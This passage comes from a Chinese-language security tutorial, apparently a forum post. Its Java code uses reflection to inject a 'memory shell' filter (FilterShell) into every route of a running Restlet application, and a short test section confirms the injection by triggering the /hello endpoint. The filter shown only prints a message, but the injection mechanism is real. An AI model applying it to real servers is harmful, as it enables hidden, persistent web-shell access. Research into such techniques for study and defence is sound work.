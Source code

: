 ```java
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("child");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getSuperclass().getDeclaredField("inboundRoot");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("routes");
            field.setAccessible(true);
            obj = field.get(obj);

            for (Object route: (RouteList) obj) {
                field = route.getClass().getSuperclass().getSuperclass().getDeclaredField("next");
                field.setAccessible(true);
                obj =field.get(route);

                field.set(route, new FilterShell());

                Object now_next = field.get(route);
                field = now_next.getClass().getSuperclass().getDeclaredField("next");
                field.setAccessible(true);
                field.set(now_next, obj);
            }

        } catch (Exception e){
            e.printStackTrace();
        }
    }

    public static class FilterShell extends Filter {
        @Override
        protected int beforeHandle(Request request, Response response) {
            // 在请求处理之前执行逻辑
            System.out.println("this is FilterShell");
            return CONTINUE; // 继续处理请求
        }
    }
}
```

### 测试

先修改MyResource类下的内容，接着访问/hello接口注入内存马，再次访问/hello接口可以看到控制台输出`this is FilterShell`说明注入成功

![image-20240831124435618.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-57d727bdaca2ff8322a03dde9caa047428276a23.png)

![image-20240831124359944.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-2b2c27c0d92544ae9ca53d45f2da9ca430a7a917.png)